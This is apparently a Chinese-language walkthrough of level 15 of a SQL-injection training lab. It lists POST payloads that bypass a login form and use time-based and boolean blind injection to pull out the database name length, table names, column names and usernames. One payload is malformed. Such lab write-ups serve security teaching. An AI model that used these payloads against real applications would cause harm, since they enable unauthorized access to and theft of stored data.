

# Less-15
以下均为POST内容：
首先在代码中加入两行:  echo $sql;              echo "</br>";
1. uname=admin&passwd=a“&submit=Submit    构造：1‘ or 1=1#   在这里判断列数没有实际意义了
2. uname=adminadmin&passwd=admiand' or if(length(database())>1000,1,sleep(5))#&submit=Submit通过这个来判断其长度
3. uname=adminadmin&passwd=admiand' or if(length()>1000,1,sleep(5))#&submit=Submit
4. uname=adminadmin&passwd=admiand‘ or left((select table_name from information_schema.tables where table_schema=’security‘ limit 0,1),1)>’a‘#&submit=Submit 使用和less-13相同的方法进行判断，就可以判断出当前security库的第一个表的第一个字母是否大于a
5. uname=adminadmin&passwd=admiand‘ or left((select column_name from information_schema.columns where table_name=’users‘ limit 0,1),1)>’g‘#&submit=Submit 通过同样的方法可以判断users表中的字段数据是否大于g
6. uname=adminadmin&passwd=admiand‘ or left((select username from security.users limit 0,1),1)> ’a‘#&submit=Submit通过这个来判断security.users下的username下第一个字段的第一位，在这里不能直接使用select username,password来一起查询，需要一个个进行查询